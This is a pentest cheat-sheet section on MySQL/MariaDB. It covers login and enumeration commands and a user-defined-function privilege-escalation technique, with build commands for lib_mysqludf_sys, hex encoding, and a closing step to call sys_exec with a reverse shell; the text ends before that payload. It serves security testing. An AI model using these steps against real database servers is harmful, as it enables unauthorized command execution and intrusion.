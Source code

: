# DBMS




## MySQL/MariaDB

Basic CLI syntax:

```
$ mysql -h 127.0.0.1 -P 3306 -u snovvcrash -p'Passw0rd!' -e 'show databases;'
```

Basic enumeration:

```
mysql> show GRANTS;
mysql> select @@hostname, @@tmpdir, @@version, @@version_compile_machine, @@plugin_dir;
```



### UDF PrivEsc

* [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)
* [https://github.com/mysqludf/lib_mysqludf_sys](https://github.com/mysqludf/lib_mysqludf_sys)
* [https://gist.github.com/snovvcrash/efeb79d3e2648ec5009dd2ea7052f8b9](https://gist.github.com/snovvcrash/efeb79d3e2648ec5009dd2ea7052f8b9)

Install dependencies:

```
$ sudo apt install libmariadbclient-dev -y
$ git clone https://github.com/mysqludf/lib_mysqludf_sys && cd lib_mysqludf_sys
```

Compile `.so` library (x86 example):

```
$ sudo apt install libc6-dev-i386 -y
$ gcc lib_mysqludf_sys.c -o lib_mysqludf_sys_x86.so -m32 -Wl,--hash-style=both -fPIC -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/server/private -I. -shared -L/usr/lib/x86_64-linux-gnu/libstdc++.so.6
```

Compile `.so` library (x64 example):

```
$ gcc lib_mysqludf_sys.c -o lib_mysqludf_sys_x64.so -m64 -Wl,--hash-style=both -fPIC -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/server/private -I. -shared -L/usr/lib/x86_64-linux-gnu/libstdc++.so.6
```

Convert library to hex:

```
$ xxd -p lib_mysqludf_sys.so | tr -d '\n'
```

Load library and call user-defined `sys_exec` function with a rev-shell.
